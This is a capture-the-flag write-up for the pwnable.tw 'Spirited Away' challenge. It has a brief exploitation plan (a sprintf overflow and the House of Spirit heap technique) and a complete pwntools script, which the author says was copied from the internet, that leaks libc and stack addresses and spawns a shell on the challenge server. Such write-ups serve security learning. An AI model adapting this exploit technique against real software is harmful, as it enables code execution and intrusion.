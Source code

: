 # Spirited Away
> LongChampion, 26/03/2020

## Ideal
- Firstly, we can leak the stack by some ways (maybe send 80 bytes to `reason` to read `$EBP`).
- Secondly, by send more than 100 commends, `sprintf` will overflow and change one important variable from `60` to `110`.
- But we can't directly overwrite the `RET_ADDR`, because `reason` are accept at most 80 character.
- So we move attention to variable `name` and `comment`, because we have "extended" their "capacity" from `60` to `110`.
- The most interesting now is variable `name`, we can overwrite it and make it point to the stack instead of the heap.
- Using the method `House of Spirit` in this [book](https://heap-exploitation.dhavalkapil.com/), we can make `name` point to the stack and overwrite `RET_ADDR` to get the flag

## Final Solution (Copy from intenet)
 ```python
#!/usr/bin/python2

from pwn import *

r = remote('chall.pwnable.tw', 10204)
elf = ELF('./spirited_away')
libc = ELF('./libc_32.so.6')


def comment(name, age, reason, comment):
    r.sendafter('name: ', name)
    r.sendlineafter('age: ', str(age))
    r.sendafter('movie? ', reason)
    r.sendafter('comment: ', comment)


comment('AAAA', 1111, 'B' * 24, 'CCCC')
r.recvuntil('B' * 24)
leak = u32(r.recv(4))
libc_base = leak - libc.symbols['_IO_file_sync'] - 7
system = libc_base + libc.symbols['system']
binsh = libc_base + libc.search('/bin/sh').next()
log.info("LIBC BASE: " + hex(libc_base))
log.warn("Please wait, it may take about 2 minutes")

r.sendafter('<y/n>: ', 'y')
comment('AAAA', 1111, 'B' * 56, 'CCCC')
r.recvuntil('B' * 56)
stack = u32(r.recv(4))
r.sendafter('<y/n>: ', 'y')

for i in range(100 - 2):
    comment('1', '1', '1', '1')
    r.sendafter('<y/n>: ', 'y')

payload = ''
payload += p32(0)
payload += p32(0x41)
payload += 'A' * 60
payload += p32(0x10000)  # top chunk

payload2 = ''
payload2 += 'A' * 84
payload2 += p32(stack - 104)
comment('AAAA', 1111, payload, payload2)

payload = ''
payload += 'A' * 76
payload += p32(system)
payload += 'A' * 4
payload += p32(binsh)
r.sendafter('<y/n>: ', 'y')
comment(payload, 1, 'BBBB', "CCCC")
r.sendafter('<y/n>: ', 'n')

r.interactive()
```
